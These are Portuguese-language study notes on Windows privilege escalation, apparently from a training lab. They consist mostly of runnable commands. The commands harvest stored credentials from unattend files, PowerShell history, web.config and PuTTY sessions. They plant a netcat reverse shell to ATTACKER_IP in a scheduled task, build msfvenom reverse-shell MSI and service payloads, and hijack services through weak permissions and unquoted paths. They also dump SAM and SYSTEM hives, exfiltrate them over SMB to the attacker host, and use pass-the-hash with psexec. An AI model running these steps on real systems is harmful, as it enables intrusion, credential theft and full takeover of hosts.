




Windows Privilege Escalation

# Unattended Windows Install

Procure nesses arquivos credenciais de acesso

- C:\\Unattend.xml
- C:\\Windows\\Panther\\Unattend.xml
- C:\\Windows\\Panther\\Unattend\\Unattend.xml
- C:\\Windows\\system32\\sysprep.inf
- C:\\Windows\\system32\\sysprep\\sysprep.xml

# Powershell History

infelizmente n tem um history command no pw, mas pegue o historico no seguinte arquivo:

```shell-session
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

&nbsp;

# Credenciais salvas

vai listar credenciais salvas pelos usuarios

```shell-session
cmdkey /list
```

use o runas para usar as credenciais salvas para executar o cmd 

```shell-session
runas /savecred /user:admin cmd.exe
```

# Configurações do IIS

&nbsp;acesse esses arquivos para achar creds

- C:\\inetpub\\wwwroot\\web.config
- C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\Config\\web.config

comando para achar facil

```shell-session
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

# Putty

vai pegar no registro as chaves salvas:

```shell-session
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

&nbsp;

# Schedule Tasks

use o schtasks sem parametro para listar todas as tarefas, e depois o seguinte comando para pegar detalhes

```shell-session
schtasks /query /tn vulntask /fo list /v
```

por exemplo é possivel substituir o arquivo da task para ter controle sobre ela?



cheque as permissões com icacls

```shell-session
icacls c:\tasks\schtask.bat
```



os usuarios builtin tem acesso **FULL (F)** sobre o arquivo, ou seja qualquer um pode modifica-lo

uma forma de fazer isso seria colocar o netcat ou cmd:

```shell-session
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

para poppar a shell é preciso rodar a task

```shell-session
schtasks /run /tn vulntask
```

# Always Install Elevated

essa faz uso do .MSI para elevar os privilegios da instalação. Sete os dois registros e gere um payload em .MSI para a execução:

```shell-session
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

&nbsp;payload

```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

execução 

```shell-session
`C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`
```

# Serviços do Windows

os serviços dos windows é gerenciado pelo **SCM (Service Control Manager)**

sc query -> mostra todos os serviços

mostra os detalhes do serviço 

```shell-session
sc qc apphostsvc
```

serviços possuem DACL (discretionary access control list) que lista quem pode pausar, query status, ou reconfigurar.

todas as configurações dos serviços ficam na chaves  
`HKLM\SYSTEM\CurrentControlSet\Services\`

se por acaso um serviço possui um executavel que seja permissivo demais, use o **icacls** para verificar. Se por acaso tiver o **(M) modify** é possivel fazer um overwrite no arquivo. 

payload no msfvenon

```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
```

&nbsp;depois é só substituir o arquivo com **move** e dar suas devidas permissões

```shell-session
icacls WService.exe /grant Everyone:F
```

```shell-session
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```

lembra que o powershell tem um alias e so vai funfar com sc.exe

# serviços sem aspas

se por acaso encontrar um serviço que não tenha aspas no path name, vc consegue colocar um arquivo na pasta.

No print abaixo o SCM é parceiro e tenta achar o binario para vc em todo o path, no primeiro que ele acha executa, então ao invez de executar o **disksrc.exe**, vc pode criar um **Disk.exe** e ele vai executar pois está no suposto "PATH"



se o ICACLS mostrar que vc tem acesso a criar subdiretorios **(WD)** e arquivos **(AD)** dentro da pasta é possivel colocar um binario la dentro -- access and write dir?

.

só jogar um payload, usar o ICACLS para dar grant e restartar o serviço.

&nbsp;

# permissões inseguras

&nbsp;

é possivel usar o [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) do sysinternals para fazer uma varredura das permissões DACL dos serviços

```shell-session
accesschk64.exe -qlc thmservice
```

um `BUILTIN\\Users` SERVICE_ALL_ACCESS permite vc reconfigurar um serviço, com o **sc**  da pra mudar o path do binario

```shell-session
sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```

&nbsp;

## SeBackup/SeRestore

se no whoami /priv possuir esses caras, é possível fazer um pass the hash attack.

```shell-session
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
```

salve os hashes 

```shell-session
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.
```

&nbsp;

user um SMB para pegar os hashes, o impacket tem um simples de uso:

```shell-session
mkdir share
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

maquina atacada:

```shell-session
copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```

&nbsp;faça o dump dos hashes:

```shell-session
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

faça o passthehash attack

```shell-session
python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@MACHINE_IP
```

&nbsp;

## SeTakeOwnership 

&nbsp;

&nbsp;

&nbsp;

https://github.com/gtworek/Priv2Admin